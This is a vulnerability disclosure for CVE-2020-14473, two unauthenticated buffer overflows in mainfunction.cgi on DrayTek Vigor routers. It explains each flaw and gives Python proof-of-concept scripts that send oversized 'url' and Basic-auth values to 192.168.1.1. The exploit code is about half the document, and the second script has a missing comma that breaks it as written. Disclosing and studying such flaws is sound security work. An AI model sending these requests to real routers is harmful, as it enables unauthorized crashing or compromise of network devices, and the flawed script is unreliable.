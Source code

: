 # CVE-2020-14473 BOF

- Products: DrayTek Vigor2960/3900/300B
- Firmware: < version 1.5.1.1

This CVE contains 2 buffer-overflow without authorization.

## An unauthorized **buffer overflow**(about url) @ mainfunction.cgi

We found an unauthorized bof @ mainfunction.cgi, the vulnerability locates at mainfunction.cgi's handler "web_portal_bypass_ok" and "authuser" (you can visit this handler by "action=web_portal_bypass_ok"/"action=authuser"). 

While handling `url`, some special characters will be escaped and their length will be expanded from 1 to 3 or more. However, mainfunction.cgi ignores the change of length and put `url` into a buffer with length == len(raw(url)) but not len(escape(url)), which leads to a buffer overflow.

Here is the PoC:

```python=
# PoC Author: C0ss4ck,Swings,MozhuCY
import requests
from urllib.parse import quote
import base64

def poc(url):
    headers = {
        "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0"
    }

    url = url + "/cgi-bin/mainfunction.cgi"
    data = {
        "action": "web_portal_bypass_ok",
        "url":"http://"+"\x40"*0xFFF+"/",
        "is_android":"ture"
    }    
    res = requests.post(url=url, verify = False, data=data, timeout=(10, 15), headers=headers)

    if res.status_code != 200:
        print(res.text)
    else:
        print(res.text)
        return ""

poc("http://192.168.1.1")
```

## An unauthorized **buffer overflow**(about auth) @ mainfunction.cgi

We found an unauthorized bof @ mainfunction.cgi while accessing `cgi-bin/mainfunction.cgi/login`. The vulnerability will be triggered by a crafted K-V pair of `HTTP_Authorization` in HTTP Header such as `base64("A"*0x80+":"+"B"*0x80)` whose `username`'s length is bigger than 0x40.

While handling `HTTP_Authorization`, mainfunction.cgi decodes its value with base64 with a buffer whose size is 0x400, and after extracting `username` from the buffer, another buffer whose size is 0x40 will be filled with `username`, consequently, if username's length is bigger than 0x40, it will lead to a stack-based buffer overflow.

```python=
# PoC Author: C0ss4ck,Swings,MozhuCY
from sys import argv
from base64 import b64encode
import requests

buf = b64encode(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")

header = {
    "Content-Type": "application/raw"
    "Authorization": "Basic "+buf
}
url = {
    "root": "http://192.168.1.1",
    "cgi": {
        "root": "/cgi-bin",
        "uri": {
            "mf": "/mainfunction.cgi",
        }
    }
}

def build_url(p1, p2=None):
    if p2:
        return url["root"] + url[p1]["root"] + url[p1]["uri"][p2]
    else:
        return url["root"] + url[p1]

session = requests.session()
session.post(build_url("cgi", "mf")+"/login", headers=header)
```

## Founder
- [C0ss4ck](https://github.com/Cossack9989) @ NJUPT (email: c0ss4ck9989@gmail.com)
- [Swings](https://github.com/WinMin) @ Chaitin (email: weiming.shi@chaitin.com)
- [MozhuCY](https://github.com/MozhuCY) @ NJUPT (email: mozhucy@gmail.com)